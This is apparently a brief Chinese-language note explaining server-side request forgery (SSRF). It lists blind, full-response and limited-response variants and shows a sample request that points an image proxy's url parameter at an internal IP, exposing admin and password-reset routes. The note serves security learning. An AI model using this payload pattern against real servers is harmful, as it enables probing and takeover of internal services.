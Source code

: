 #ssrf 


>在服务器端请求伪造(SSRF)攻击中，攻击者可以利用服务器上的功能来读取或更新内部资源。SSRF漏洞使攻击者能够发起源自服务器的请求。

- Blind Ssrf ：允许扫描可访问的主机和端口
- 完整回显：允许您查看服务器的整个响应
- 有限回显：显示响应的一部分，如页面的标题或无响应，或者您可以访问资源但不能直接查看它们

### Full Response
```http

GET http://xxx.com/images/proxy?url=https://aaaa.com/1.png http/1.1


Response:
djflksadjflksdjflsdjalfjdslkajflasjdljxclkjcljlksdjlkdajflkdf
dsjfklsadjflkjsdlkfjslda



GET http://xxx.com/images/proxy?url=https://10.0.01 http/1.1


Response:
{
	"message":"Route not available",
	"routes":[
		"/users/{user_id}",
		"/user/{user_id}/make_admin",
		"/user/{user_id}/new_password/{new_password}",
	]
}
```